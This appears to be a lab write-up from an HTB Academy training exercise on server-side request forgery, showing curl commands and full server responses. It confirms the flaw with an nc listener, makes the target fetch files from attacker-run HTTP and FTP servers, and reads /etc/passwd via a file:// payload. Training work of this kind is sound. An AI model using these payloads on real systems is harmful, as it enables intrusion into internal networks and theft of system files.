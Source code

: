 Attack flow of SSRF:

![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/a54adcb7-ae6f-43e9-a42f-db3a8c41175d)

## Curl - Interacting with the Target
`-i` to show protocol response header
`-s` to use silent mode

```bash
┌──(hunter㉿kali)-[~]
└─$ curl -i -s http://10.129.34.24
HTTP/1.0 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 242
Location: http://10.129.34.24/load?q=index.html
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 10 Oct 2023 01:28:54 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/load?q=index.html">/load?q=index.html</a>. If not click the link.
```

We can see the request redirected to /load?q=index.html, meaning the q parameter fetches the resource index.html. Let's see with `-L`
```bash
┌──(hunter㉿kali)-[~]
└─$ curl -i -s -L http://10.129.34.24
HTTP/1.0 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 242
Location: http://10.129.34.24/load?q=index.html
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 10 Oct 2023 01:29:31 GMT

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 153
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 10 Oct 2023 01:29:32 GMT

<html>
<!-- ubuntu-web.lalaguna.local & internal.app.local load resources via q parameter -->
<body>
<h1>Bad App</h1>
<a>Hello World!</a>
</body>
</html>
```

The spawned target is ubuntu-web.lalaguna.local, and internal.app.local is an application 
on the internal network (inaccessible from our current position).

I will check to confirm SSRF vulnerability:
1) Start nc listener
```bash
┌──(hunter㉿kali)-[~]
└─$ nc -lvnp 8080
listening on [any] 8080 ...
```
2) Send url with pointing listener port:
```bash
curl -i -s "http://10.129.34.24/load?q=http://10.10.16.3:8080"
```
3) At the end I recieved response confirming SSRF vulnerability
```bash
┌──(hunter㉿kali)-[~]
└─$ nc -lvnp 8080
listening on [any] 8080 ...
connect to [10.10.16.3] from (UNKNOWN) [10.129.34.24] 45800
GET / HTTP/1.1
Accept-Encoding: identity
Host: 10.10.16.3:8080
User-Agent: Python-urllib/3.8
Connection: close
```
Reading the Python-urllib documentation, we can see it supports file, http and ftp schemas. 
So, apart from issuing HTTP requests to other services on behalf of the target application,
we can also read local files via the file schema and remote files using ftp.

We can test this functionality through the steps below:

    Create a file called index.html
```bash
<html>
</body>
<a>SSRF</a>
<body>
<html>
```
1) Inside directory where index.html located start http and ftp server:
`python3 -m http.server 9090`
After installing `twistesudo` with pip3 then start ftp server:
`python3 -m twisted ftp -p 21 -r .d`

## Retrieving a remote file through the target application - FTP Schema
```bash
curl -i -s "http://10.129.34.24/load?q=ftp://10.10.10.10/index.html"
```
## Retrieving a remote file through the target application - HTTP Schema
```bash
curl -i -s "http://10.129.34.24/load?q=http://10.10.10.10:9090/index.html"
```

## Retrieving a local file through the target application - File Schema
```bash
┌──(hunter㉿kali)-[~]
└─$ curl -i -s "http://10.129.34.24/load?q=file:///etc/passwd"
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 925
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 10 Oct 2023 01:36:39 GMT

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```





